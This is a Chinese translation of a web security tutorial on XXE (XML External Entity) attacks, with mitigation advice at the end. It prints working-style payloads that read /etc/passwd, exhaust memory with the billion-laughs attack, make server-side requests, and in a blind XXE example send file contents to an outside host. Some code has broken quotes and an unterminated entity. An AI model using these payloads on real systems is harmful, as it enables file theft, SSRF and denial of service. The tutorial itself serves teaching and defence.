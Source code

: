# XXE:网络应用安全基础知识

> 原文：<https://infosecwriteups.com/xxe-web-app-security-basics-70ef8ed274f0?source=collection_archive---------3----------------------->

![](img/0d44d57e2ed3fb2cbbabf2adaa4551e9.png)

XXE 又名 **XML 外部实体**是针对允许 XML 输入的应用程序的攻击，攻击者可以干扰应用程序的 XML 处理。如果攻击成功，攻击者可以查看服务器上的文件数据，并进行路径遍历、端口扫描、拒绝服务等多种攻击，甚至访问应用程序有权访问的内部机器(指 SSRF 攻击)。在 [OWASP Top 10 (2017)](https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE).html) 中排名第四。

**这种脆弱性是如何产生的？**

当应用程序的弱配置 XML 解析器处理 DTD(文档类型声明)时，即内部或外部，应用程序中很可能存在此漏洞。外部 DTD 更有趣，因为它们允许实体的值是文件路径或 URL。

外部 DTD 示例:

```
POST /home/ HTTP/1.1
Host: www.idontknow.com<?xml version=”1.0" encoding=”UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>
<foo>
 &xxe;
</foo>
```

让我们深入了解一些基本信息:

**什么是 XML？**

XML(可扩展标记语言)是一种标记语言，它定义了一组以人类可读和机器可读的格式编码文档的规则。它是像 HTML 一样的标记语言。这是非常自我描述的。

**什么是 DTD？**

DTD 代表文档类型定义。DTD 的目的是定义 XML 文档的结构、合法元素和属性。DTD 从 here are two types of DTD declaration:

*   **内部 DTD 声明**开始:当元素在 XML 中声明时。

```
<!DOCTYPE test 
[ <!ENTITY xxe "Vulnerability"> 
]>
```

*   **外部 DTD 声明**:当元素在 XML 之外声明时。通过指定系统属性来访问它们，这些属性可以是合法的*。dtd* 文件或有效的 URL。

```
<!DOCTYPE test 
[ <!ENTITY xxe SYSTEM “any_dtd_file.dtd”>
]>
```

**注意**:XML 规范不允许将外部实体与内部实体结合使用。

**现在进攻部分**:

当应用程序的请求如下所示时:

```
POST http://somesite.com/xml HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data[
  <!ELEMENT Test ANY>
  <!ENTITY xxe "Possible">
]>
<foo>
  &xxe**;**
</foo>
```

得到的回答是:

```
HTTP/1.0 200 OK

Possible
```

我们可以在这里尝试不同的技术和有效载荷。

*   **文件泄露**:获取'/etc/passwd '文件的内容。

```
POST http://somesite.com/xml HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data[
  <!ELEMENT Test ANY>
  <!ENTITY xxe SYSTEM “file:///etc/passwd”> 
]>
<foo>
  &xxe**;**
</foo>
```

*   **拒绝服务**:泛指亿笑攻击。这个简单的有效载荷可以占用高达 3gb 的内存。

```
POST http://somesite.com/xml HTTP/1.1<?xml version="1.0" ?>
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<foo>
  &lol9;
</foo>
```

*   **SSRF(服务器端请求伪造)**:攻击者可以从服务器向其他资源发送请求，以获取敏感信息。

```
POST http://somesite.com/xml HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data[
  <!ELEMENT Test ANY>
  <!ENTITY xxe SYSTEM “https://www.othersite.com/text.txt”>
]>
<foo>
  &xxe**;**
</foo>
```

*   **盲 XXE** :当应用程序易受 XXE 攻击，但在其响应中不返回任何定义的外部实体的值时。

```
POST http://somesite.com/xml HTTP/1.1<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT Test ANY>
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">
]>
<foo>
  &blind;
</foo>
```

*   **XInclude** :当应用程序从请求中获取数据并将其嵌入到服务器端的 XML 文档中时，XInclude 攻击技术就会被利用。

```
POST http://somesite.com/xml HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

**缓解**:

*   禁止使用 dtd。如果不可能，可以考虑 [OWASP XXE 预防小抄](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)。
*   禁用对 XInclude 的支持。

**参考**:

[](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/) [## 什么是 XML 外部实体(XXE)攻击

### XML 外部实体(XXE)攻击(有时称为 XXE 注入攻击)是一种滥用广泛的…

www.acunetix.com](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/) [](https://portswigger.net/web-security/xxe) [## 什么是 XXE (XML 外部实体)注入？教程和示例|网络安全学院

### 在这一节中，我们将解释什么是 XML 外部实体注入，描述一些常见的例子，解释如何…

portswigger.net](https://portswigger.net/web-security/xxe)  [## XML 外部实体防护- OWASP 备忘单系列

### XML 外部实体注入(XXE)是一种攻击，现在通过 A4 点成为 OWASP 十大攻击之一

cheatsheetseries.owasp.org](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)